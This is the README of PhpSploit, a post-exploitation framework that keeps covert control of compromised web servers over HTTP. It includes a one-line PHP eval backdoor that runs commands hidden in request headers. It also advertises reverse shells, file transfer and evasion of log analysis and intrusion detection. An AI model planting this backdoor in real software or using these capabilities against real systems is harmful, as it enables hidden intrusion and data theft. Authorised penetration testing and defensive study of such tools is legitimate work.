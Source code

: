 ### PhpSploit: *Furtive post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

---------------------------------------------------------------------
#### Features ####

* **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

* **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common *PHP security restrictions bypass*
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to *bypass NIDS*
    - http/https/socks4/socks5 **Proxy support**

* **Convenient**: A robust interface with many crucial features
    - *Cross-platform* on both the client and the server.
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature, with persistent history
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a *polymorphic mode*
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


---------------------------------------------------------------------
#### Supported platforms:####
* GNU/Linux
* Mac OS X
* Windows (experimental)


## [Get started now !] ##


[picture]: data/img/phpsploit-demo.png
[Get started now !]: https://github.com/nil0x42/phpsploit/wiki

